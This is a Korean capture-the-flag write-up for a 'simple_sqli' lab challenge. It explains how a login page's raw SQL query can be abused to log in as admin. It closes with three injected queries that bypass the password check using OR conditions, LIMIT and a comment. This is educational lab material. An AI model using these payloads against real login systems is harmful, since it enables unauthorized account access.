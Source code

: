 ## 📍simple_sqli

```
로그인 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

관리자 계정으로 로그인하면 화면에 FLAG가 출력된다.

#### 소스코드

**login** 페이지는 입력받은 `userid`, `userpassword`를 DB에서 조회하고 이에 해당하는 데이터가 있는 경우 로그인을 수행한다.
![](Attachments/{B607DA3B-7FF6-44E6-85A9-E69B1C77D59B}.png)

admin 계정의 비밀번호는 랜덤 16바이트의 문자열이기 때문에 값을 예상할 수 없다.


#### 취약점

login 페이지에서 `userid`와 `userpassword`를 이용자에게 입력받고, 동적으로 쿼리문을 생성한 뒤 `query_db` 함수에서 DB에 질의한다.
이렇듯 동적으로 생성한 쿼리를 **RawQuery**라고 한다.
RawQuery를 생성할 때 이용자의 입력값이 쿼리문에 그대로 포함되면 SQL Injection 취약점에 노출될 수 있다.
(이용자의 입력값을 검사하는 과정이 없음)
임의의 쿼리문을 `userid` 또는 `userpassword`에 삽입해 SQL Injection 공격을 시도한다.


#### 해결

로그인을 위해 실행하는 쿼리문: `SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";`

`userpassword`를 검사하는 과정을 생략할 수 있게 다음과 같이 입력한다.

![](Attachments/{1E865DA1-F5C1-4F4A-B84C-083A3E3BF6F3}.png)

![](Attachments/{CD50907D-64F4-4751-8675-417225786EE2}.png)


#### 다른 해결법

```sql
/* userid 검색조건 뒤에 OR 조건을 추가해 뒷 내용이 뭐든 admin 반환 */
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword=""
/* userid 검색조건에 admin, userpassword에 임의 값을 입력하고 OR 조건을 추가 */
SELECT * FROM users WHERE userid="admin" AND userpassword="" OR userid="admin"
/* userid 검색조건 뒤에 OR 1을 추가해 테이블의 모든 내용을 반환하도록 하고, LIMIT 절을 이용해 두 번째 Row인 admin을 반환하도록 함 */
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword=""
```